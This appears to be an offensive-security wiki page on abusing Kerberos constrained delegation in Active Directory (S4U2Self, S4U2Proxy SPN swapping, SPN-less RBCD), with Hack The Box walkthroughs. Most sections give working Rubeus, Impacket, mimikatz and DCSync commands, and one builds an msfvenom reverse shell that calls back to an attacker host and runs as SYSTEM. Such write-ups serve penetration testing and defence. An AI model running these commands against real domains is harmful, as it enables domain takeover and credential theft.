





---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
  tags:
    visible: true
---

# Constrained

## Overview


A service account cannot modify its own `msDS-AllowedToDelegateTo` attribute.


Constrained delegation limits impersonation to **specific services on specific hosts**. If a user authenticates using a method other than Kerberos (e.g., NTLM), the service can still delegate using [Protocol Transition](constrained.md#with-protocol-transition), converting the authentication method into a Kerberos ticket to perform delegation.

<div align="left"><figure><figcaption></figcaption></figure></div>

The list of allowed services is stored in the `msDS-AllowedToDelegateTo` attribute.

<div align="left"><figure><figcaption></figcaption></figure></div>

The service account makes a special TGS-REQ (`S4U2Proxy`) to KDC by modifying two of its fields:

* `additional tickets` → contain a TGS copy the user sent to the service account
* `cname-in-addl-tkt` → indicates to KDC to use the ticket information within `additional_tickets` instead of the server information

The KDC will check that the account has the rights to delegate to the requested service and that the TGS copy is `forwardable`. If everything checks out, it will return a TGS.

### SPN List


`WSMAN` is the protocol the underlies PowerShell Remoting, so `HTTP` is used for that.


<table><thead><tr><th width="137.66668701171875">Service (SPN)</th><th width="607.3333129882812">Provides Access To</th></tr></thead><tbody><tr><td><code>HTTP</code></td><td>WinRM (Windows Remote Management)</td></tr><tr><td><code>CIFS</code></td><td>File system (SMB shares)</td></tr><tr><td><code>HOST</code></td><td>Scheduled tasks, remote service control, WMI (partial, combined with <code>RPCSS</code>)</td></tr><tr><td><code>RPCSS</code></td><td>WMI (combined with <code>HOST</code>), DCOM/RPC endpoint mapper</td></tr><tr><td><code>LDAP</code></td><td>DCSync (requires elevated permissions)</td></tr><tr><td><code>TERMSRV</code></td><td>RDP (Remote Desktop Protocol)</td></tr></tbody></table>

## With Protocol Transition

<div align="left"><figure><figcaption></figcaption></figure></div>

`S4U2Self` and `S4U2Proxy` are Kerberos extensions in AD that enable delegation and they are commonly used in constrained delegation scenarios.

[`S4U2Self`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13) addresses the situation where **a user authenticates to a service without using Kerberos** **(e.g. via NTLM) and therefore does not present a TGS**. To solve this issue, the service requests a forwardable TGS to itself on behalf of a specified user. The user’s password is not required. ~~The DC verifies that the service is trusted for delegation and that the user is not marked as `sensitive for delegation`. If these checks pass, the TGS is issued~~. As shown in [LustrousTwo](constrained.md#lustroustwo), this step can be leveraged in scenarios where no delegation is configured on the service account.

With this ticket, the service can then perform [`S4U2Proxy`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/bde93b0e-f3c9-4ddf-9f44-e1453be7af5a). Now, **the service requests a second TGS to access a downstream service on behalf of the user**. The request is limited to the target services listed in the service account’s `msDS-AllowedToDelegateTo` attribute. The KDC validates that the target SPN is permitted and, if so, issues a new TGS.

To recap:

1. `S4U2Self` → Service requests a ticket to itself as any user.
2. `S4U2Proxy` → Service requets a ticket for another service impersonating a user.

<div align="left"><figure><figcaption><p>Constrained Delegation with protocol transition.</p></figcaption></figure></div>

This setup introduces two key risks if the delegating service account (e.g .`websvc`) is compromised:

* The `S4U2Self` request can be leveraged to impersonate any user on the host itself (e.g. `web01`).
* The service part in `S4U2Proxy` can be maliciously altered (e.g. from `TIME` to `LDAP`).

### S4U2Self

The first risk lies within the `S4U2Self` and the fact that **the service can obtain a forwardable ticket for** **any domain user**. As a result, any downstream service listed in `msDS-AllowedToDelegateTo` becomes reachable as a privileged identity. **A compromised service account becomes a pivot point for lateral movement**.

As shown in [LustrousTwo](constrained.md#lustroustwo), if no delegation is configured in the service account, this step can still be leveraged to obtain a non-forwadable ticket and escalate privileges on the service itself.

<div align="left"><figure><figcaption><p>Targeting the <code>S4U2Self</code> step.</p></figcaption></figure></div>



On the below example, the compromise `molly_svc` service account is used to impersonate a privileged user to `DC01`:


```bash
# Enumerate objects with the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION UAC flag
findDelegation.py mollysec.local/molly:Pass123

# Request TGS impersonating the Administrator
getST.py -spn TERMSRV/DC01 mollysec.local/molly_svc:Pass123 -impersonate Administrator

# Export the TGS and access the target
KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass mollysec.local/administrator@DC01
```




On this example, we have compromised the service account (`websvc`) and we leverage `S4U2Self` in order to access the file system of `WEB01` as a privileged user:


```powershell
# Enumerate objects with the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION UAC flag
Get-DomainUser -TrustedToAuth # PowerView
Get-DomainComputer -TrustedToAuth # PowerView
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo # AD module

# Obtain the creds of the compromised account configured with constrained delegation
.\mimikatz.exe privilege::debug sekurlsa::msv exit

# Obtain a TGS as the administrator while targeting CIFS (S4U2Self)
.\Rubeus.exe s4u /user:websvc /aes256:<key> /impersonateuser:Administrator /msdsspn:CIFS/web01.mollysec.local /ptt

# Access the target's file system as Administrator
dir \\web01.mollysec.local\c$
```




### S4U2Proxy


Services are case-sensitive → `LDAP` not `ldap`!


The second issue is that the SPN in an `S4U2Proxy` request is sent in plaintext, which means it can be modified. While the `msDS-AllowedToDelegateTo` attribute is intended to restrict which services a ticket can be requested for, this control applies only to the target host and not always to the specific service class.

As a result, if delegation is configured for a low-risk service, such as `TIME/DC01`, the service portion of the SPN (in this case, `TIME`) can potentially be changed to a more sensitive one, such as `LDAP`, while keeping the same host.

<div align="left"><figure><figcaption><p>Targeting the <code>S4U2Proxy</code> step.</p></figcaption></figure></div>

In the example below, we have compromised the `adminsrv$` account which is configured with constrained delegation of the `TIME` service to `DC01`. Leveraging `S4U2Proxy`, we can change `TIME` to `LDAP` and perform a DCSync on `DC01`:


```powershell
# Enumerate objects with the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION UAC flag
Get-DomainUser -TrustedToAuth # PowerView
Get-DomainComputer -TrustedToAuth # PowerView
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo # AD module

# Obtain the creds of the compromised account configured with constrained delegation
.\mimikatz.exe privilege::debug sekurlsa::msv exit

# Modify the SPN (requires elevated shell) (S4U2Proxy)
.\Rubeus.exe s4u /user:adminsrv$ /aes256:<key> /impersonateuser:Administrator /msdsspn:time/dc01.mollysec.local /altservice:LDAP /ptt

# Attacks like DCSync can now be executed
```


### U2U (SPN-less)


This technique should be avoided on regular user accounts: the user account's password hash will be replaced with another hash that has no known plaintext, effectively preventing regular users from using this account.


As explained on [Exploiting RBCD Using a Normal User Account](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html) post, if there is not SPN set on the target account:

> We don't even get past the first `S4U2Self` stage of the attack, it fails with a `KDC_ERR_S_PRINCIPAL_UNKNOWN` error. **This error typically indicates the KDC doesn't know what encryption key to use for the generated ticket**. If you add an SPN to the user's account however it all succeeds. This would imply **it's not a problem with a user account per-se, but instead just a problem of the KDC not being able to select the correct key**.

And to "fix" the above:

> With knowledge of the user's password we could change the user's password on the DC between the `S4U2Self` and the `S4U2Proxy` requests so that when submitting the ticket the KDC can decrypt it.

The attack steps can be found on the [RBCD on SPN-less users](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd#rbcd-on-spn-less-users) page. The critical part is that when abusing RBCD with a normal user account, Kerberos validation during S4U requires consistency between:

* The account’s current long‑term key (derived from its password)
* The key material used in the delegation workflow (the TGT's session key)

The attacker changes the user’s password ([`SamrChangePasswordUser`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/9699d8ca-e1a4-433c-a8c3-d7bebeb01476) method) so that subsequent `S4U2Self` and `S4U2Proxy` requests succeed by aligning the account’s current key with the session key already in use.

For a practical example, see [Phantom](constrained.md#phantom).

## Without Protocol Transition

Constrained delegation without Protocol Transition **requires the client to authenticate with Kerberos directly**. As a result, the user must have a valid TGS first which will serve as the “evidence” required for the subsequent `S4U2Proxy` request.

<div align="left"><figure><figcaption><p>Constrained Delegation without Protocol Transition.</p></figcaption></figure></div>

To abuse this setup, we need two things:

* [ ] A valid TGS
* [ ] An account with an SPN (can be created if MAQ > 0)




```bash
# Create a machine account (no SPN by default)
nxc ldap dc01 -u molly -p Pass123 -M add-computer -o NAME=badPc PASSWORD=Pass123

# Set SPN
bloodyad -u molly -p Pass123 -d mollysec.local -i 10.10.10.5 set object 'badPc$' msDS-AllowedToDelegateTo -v 'ldap/dc01.mollysec.local'

# Configure constrained delegation to the machine account
bloodyad -u molly -p Pass123 -d mollysec.local -i 10.10.10.5 set object 'badPc$' userAccountControl -v 16781312 --raw

# Request TGS impersonating the DC (administrator is typically marked as sensitive)
getST.py -spn ldap/dc01.mollysec.local mollysec.local/'badPc$':Pass123 -impersonate dc

# DCSync
KRB5CCNAME=dc01@ldap_dc01.mollysec.local@MOLLYSEC.LOCAL.ccache nxc smb dc01.mollysec.local --use-kcache --ntds
```





```powershell
# Create a machine account (with an SPN by default)
New-MachineAccount -MachineAccount badPc

# Set target SPN
Set-ADComputer -Identity badPc$ -Add @{'msDS-AllowedToDelegateTo'=@('ldap/dc01.mollysec.local')}

# Enable constrained delegation (set TRUSTED_FOR_DELEGATION flag)
Set-ADAccountControl -Identity badPc$ -TrustedForDelegation $true

# Get a TGT as badPc impersonating the DC (S4U2Proxy)
.\Rubeus.exe s4u /user:badPc$ /rc4:<hash> /impersonate:dc$ /msdsspn:ldap/dc01.mollysec.local /ptt

# DCSync
.\mimikatz.exe "lsadump::dcsync /domain:mollysec.local /user:Administrator" "exit"
```




## Services

### RCE via CIFS


In certain execution methods (like those involving service control manager RPC calls, e.g., `PsExec`) a valid `HOST` SPN ticket may be also required. This is because behind the scenes, `PsExec` uses the Service Control Manager (SCM), which may demand authentication tied to the `HOST` SPN. If CIFS-only ticket injection fails to enable RCE, request and inject an additional TGS for the `HOST/target` service.


In scenarios where a machine account is configured with constrained delegation to a target server's CIFS, it is possible to impersonate privileged users and access the target via SMB by abusing the delegation trust.


```powershell
# Enumerate delegation (PowerView)
Get-DomainComputer -TrustedToAuth | select name,msds-allowedtodelegateto
```


In the below example, the machine account `CLIENT1$` is trusted for constrained delegation to the CIFS service on `server.internal.corp`. This means the delegation rights are set **on the delegator account** (`CLIENT1$`) through the `msDS-AllowedToDelegateTo` attribute.&#x20;

With the AES-256 key for `CLIENT1$` extracted, forged Kerberos tickets can be created using Rubeus’s `/s4u` module to impersonate a privileged user such as `Administrator`.

Injecting these tickets allows access to the CIFS service on the target.


```powershell
# Request a TGS for CIFS impersonating the administrator
.\Rubeus.exe s4u /user:client1$ /aes256:<key> /impersonateuser:Administrator /msdsspn:CIFS/server.internal.corp /ptt
    
# Test access on the target host
dir \\server.internal.corp\c$\
```


We can also achieve RCE via CIFS:


```shell
# Generate a reverse shell payload
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=443 -f exe -o shell.exe

# Copy the malicious binary to the target host via SMB
echo F | xcopy shell.exe \\server.internal.corp\c$\users\public\shell.exe

# Check system time
>time /t
05:33 PM

# Create a malicious scheduled task as SYSTEM
schtasks /Create /S server.internal.corp /TN "rev" /SC MINUTE /MO 1 /ST 05:39 /RU "NT AUTHORITY\SYSTEM" /TR "c:\users\public\shell.exe" /f
```


## Practice

### Phantom

The privilege escalation part of the [Phantom](https://www.hackthebox.com/machines/phantom) machine provides a good opportunity to practice RBCD using an SPN-less user.

After some Veracrypt-shenanigans, we manage to compromise the `svc_sspr` service account. This account allows the further compromise of the three `ICT Security` group members.

The members of the latter have the `AddAllowedToAct` edge over the `DC` , i.e., they can modify its `msDS‑AllowedToActOnBehalfOfOtherIdentity` attribute:

<figure><figcaption></figcaption></figure>

First, let's change the password of `crose`:


```bash
nxc smb dc -u svc_sspr -p $(cat password) -M change-password -o USER='crose' NEWPASS='Pass123'
```


Next, we will add `crose` to the `msDS‑AllowedToActOnBehalfOfOtherIdentity` attribute of the DC:


```bash
$ rbcd.py -delegate-from 'crose' -delegate-to 'DC$' -dc-ip '10.129.234.63' -action 'write' 'phantom.vl'/'crose':'Pass123'
...
[*] crose can now impersonate users on DC$ via S4U2Proxy
```


As described [above](constrained.md#spn-less-users), normal users do not (typically) have SPNs and, as a result, the normal RBCD process fails:

1. The delegating account (`crose`) goes to the KDC and requests a TGS for itself (the service `crose`) on behalf of a privileged user (e.g. `Administrator`) (`S4U2Self`).
2. For the KDC, an account is only a service if it has an SPN associated with it. As a result, it sees that `crose` does not have an SPN and refuses the request (`KDC_ERR_S_PRINCIPAL_UNKNOWN`).

To bypass the above issue, we need to set up the scene first; `crose` asks for a TGT first using her credentials which the KDC validates and issues the TGT:


```bash
# Request TGT
$ getTGT.py phantom.vl/crose:Pass123 -dc-ip 10.129.234.63
[*] Saving ticket in crose.ccache
```


The TGT includes a session key which the value we will use to change `crose`'s password to. Now, when we request a TGS for a target service (`TERMSRV/DC`) impersonating the Administrator, the full S4U delegation process (`S4U2Self` and `S4U2Proxy`) will be executed in a single transaction.

As a result, the KDC receives a request to create a TGS for `crose` itself on behalf of a privileged user (e.g., Administrator). The KDC sees that `crose` has no SPN, which would normally cause an error. However, the fact that the TGT's session key and the account's password hash now match satisfies a special validation check which allows the KDC to bypass the "no SPN" error and temporarily treat `crose` as a service, successfully completing the `S4U2Self` stage.

Because this first step succeeds, the KDC immediately proceeds to the `S4U2Proxy` step within the same transaction, issuing the final TGS for the target service:


```bash
# Obtain the session key so KDC can decrypt the TGT
$ describeTicket.py crose.ccache | grep 'Ticket Session Key'
[*] Ticket Session Key            : 020eaa24556f181aa5958362975802e2

# Change the user's password to match the session key
$ changepasswd.py -newhashes :020eaa24556f181aa5958362975802e2 phantom.vl/crose:Pass123@10.129.234.63

# Obtain a TGS for the target service
$ KRB5CCNAME=crose.ccache getST.py -u2u -impersonate Administrator -spn TERMSRV/DC.PHANTOM.VL -no-pass -dc-ip 10.129.234.63 phantom.vl/crose

# Access the target
$ KRB5CCNAME=Administrator@TERMSRV_DC.PHANTOM.VL@PHANTOM.VL.ccache wmiexec.py DC.PHANTOM.VL -k -no-pass
C:\>whoami
phantom\administrator
```


### Redelegate

The privilege escalation part of the [Redelegate](https://www.hackthebox.com/machines/redelegate) box offers some nice unconstrained delegation practice.&#x20;

After compromising `helen.frost`, we notice that she is a member of the `IT` group which has `GenericAll` over the `FS01` machine. She also has the `SeEnableDelegation` privilege:

<div align="left"><figure><figcaption></figcaption></figure></div>


```bash
$ nxc winrm dc -u helen.frost -p Pass123 -x 'whoami /priv'
...
WINRM 10.129.234.50  5985  DC  SeEnableDelegationPrivilege   Enable computer and user accounts to be trusted for delegation Enabled
```


As a result, `helen.forst` can configure delegation on a machine or a user; we already have `GenericAll` over `FS01`, so we might as well try to use that. Also, we can't create a new one anyway:


```bash
$ nxc ldap dc -u helen.frost -p Pass123 -M maq
...
MAQ         10.129.234.50   389    DC               MachineAccountQuota: 0
```


The question to ask is: can `helen.frost` also create DNS records on the domain?


```bash
# Enumerate DNS zones
$ dnstool -u 'delegate.vl\helen.frost' -p Pass123 -d 10.10.14.2 -a query 10.129.234.50 --print-zones-dn
...
[-] Found 2 domain DNS zones:
    DC=redelegate.vl,CN=MicrosoftDNS,DC=DomainDnsZones,DC=redelegate,DC=vl

# Read ACEs over the target zone
$ dacledit.py -action read -dc-ip 10.129.234.69 -target-dn 'DC=redelegate.vl,CN=MicrosoftDNS,DC=DomainDnsZones,DC=redelegate,DC=vl' delegate/helen.frost:Pass123 | grep -i -A1 'createchild'
```


It seems that the answer is no. We can test it out just to be sure:


```bash
$ dnstool -u 'redelegate.vl\helen.frost' -p Pass123 -r fs01.redelegate.vl -d 10.10.14.2 -a add 10.129.234.50
...
[!] LDAP operation failed. Message returned from server: insufficientAccessRights 00000005: SecErr: DSID-03152E29, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0
```


As a result, unconstrained delegation is not an option (as in [Delegate](unconstrained.md#practice)). This limits our options to constrained delegation.

Since we have `GenericAll` over `FS01`, we can compromise it (e.g. by changing its password), add an SPN to it, and then impersonate any user (e.g. Administrator) against the `DC` (if curious on what the `16781312` value means, see [here](../../privileges/seenabledelegation.md#constrained)):


```bash
# Change the password of FS01
nxc smb dc -u helen.frost -p Pass123 -M change-password -o USER=fs01$ NEWPASS=Pass123

# Set the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION flag to FS01
bloodyad -u helen.frost -p Pass123 -d redelegate.vl -i 10.129.234.50 set object fs01$ userAccountControl -v 16781312 --raw

# Set an SPN to FS01
bloodyad -u helen.frost -p Pass123 -d redelegate.vl -i 10.129.234.50 set object 'fs01$' msDS-AllowedToDelegateTo -v 'ldap/dc.redelegate.vl'
```


In this case, we cannot impersonate the Administrator as it is marked as [sensitive](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/how-to-configure-protected-accounts#troubleshoot-delegation-issues):

<div align="left"><figure><figcaption></figcaption></figure></div>

But we can impersonate the `DC` and use its TGS to DCSync:


```bash
# Request TGS impersonating the DC (admin is marked as sensitive)
$ getST.py -spn ldap/dc.redelegate.vl redelegate.vl/fs01$:Pass123 -impersonate dc
...
[*] Saving ticket in dc@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache

# DCSync
$ KRB5CCNAME=dc@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache nxc smb dc.redelegate.vl --use-kcache --ntds --user administrator
```


### LustrousTwo

The foothold part of [LustrousTwo](https://www.hackthebox.com/machines/lustroustwo) demonstrates quite well how we can leverage the `S4U2Self` request for privilege escalation. Technically speaking, **`S4U2Self` is not a delegation attack; it's an impersonation attack**. We are asking for a ticket to ourselves on behalf of a user; we are not asking to use that user's identity to go somewhere else (`S4U2Proxy`).

After some Kerberos and web-related shenanigans, we manage to compromise the service account that the web application runs as (`ShareSvc`). We also know that there is a group called `ShareAdmins` with two members in it: `sharon.birch` and `ryan.davies`. Finally, `ShareAdmins` is a member of the `Protected Users` group:

<figure><figcaption></figcaption></figure>

The fact that `ShareAdmins` is member of [`Protected Users`](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group) prevents any delegation scenarios:

<div align="left"><figure><figcaption></figcaption></figure></div>

&#x20;Let's check for a moment what we have here and what Protected Users actually prevents us from doing. If `ShareSvc` was configured for:

* **Unconstrained delegation**, the `Protected Users` group would prevent `ShareAdmins` members (e.g. `ryan.davies`) TGTs from being cached on the server, so the **delegation would fail**.
* **Constrained delegation**, we could perform the first step (`S4U2Self`) to get a TGS for ourselves (`HTTP` service) impersonating a member of `ShareAdmins` (e.g. `ryan.davies`). However, if we then tried to use that identity to access another service (`S4U2Proxy`), the KDC would see that `ryan.davies` is a Protected User and the **delegation would fail**.

As a sidenote, in this lab the `ShareSvc` is not configured for any type of delegation:


```bash
# Check for relevant to delegations UAC flags 
$ KRB5CCNAME=ShareSvc.ccache ldapsearch -LLL -H ldap://lus2dc.lustrous2.vl -Y GSSAPI -b "DC=LUSTROUS2,DC=VL" -N -o ldif-wrap=no -E '!1.2.840.113556.1.4.801=::MAMCAQc=' "(saMAccountname=ShareSvc)" userAccount
Control
SASL/GSSAPI authentication started
SASL username: ShareSvc@LUSTROUS2.VL
SASL SSF: 256
SASL data security layer installed.
dn: CN=ShareSvc,OU=lustrous,DC=Lustrous2,DC=vl
userAccountControl: 66048

# Check for RBCD
$ KRB5CCNAME=ShareSvc.ccache ldapsearch -LLL -H ldap://lus2dc.lustrous2.vl -Y GSSAPI -b "DC=LUSTROUS2,DC=VL" -N "(sAMAccountName=ShareSvc)" msDS-AllowedToActOnBehalfOfOtherIdentity
SASL/GSSAPI authentication started
SASL username: ShareSvc@LUSTROUS2.VL
SASL SSF: 256
SASL data security layer installed.
dn: CN=ShareSvc,OU=lustrous,DC=Lustrous2,DC=vl
```


As we just saw, our only option here is to perform an `S4USelf` request (typically associated with the first step of the constrained delegation process), that is, to use the service account (`ShareSvc`) to request a TGS for itself (the `HTTP` service) while impersonating a member of `ShareAdmins` (e.g. `ryan.davies`).

That happens to fit perfectly this lab's goal, i.e., escalating our privileges on the web application:


```bash
# Get a TGT as the service account
$ getTGT.py lustrous2.vl/ShareSvc:'#1Service' -dc-ip lustrous2.vl
...
[*] Saving ticket in ShareSvc.ccache

# Leverage S4U2Self to get a TGS for HTTP as Ryan.Davies
$ KRB5CCNAME=ShareSvc.ccache getST.py -self -impersonate ryan.davies -k -no-pass -altservice HTTP/lus2dc.lustrous2.vl lustrous2.vl/ShareSvc
[*] Impersonating ryan.davies
[*] Requesting S4U2self
[*] Changing service from ShareSvc@LUSTROUS2.VL to HTTP/lus2dc.lustrous2.vl@LUSTROUS2.VL
[*] Saving ticket in ryan.davies@HTTP_lus2dc.lustrous2.vl@LUSTROUS2.VL.ccache
```

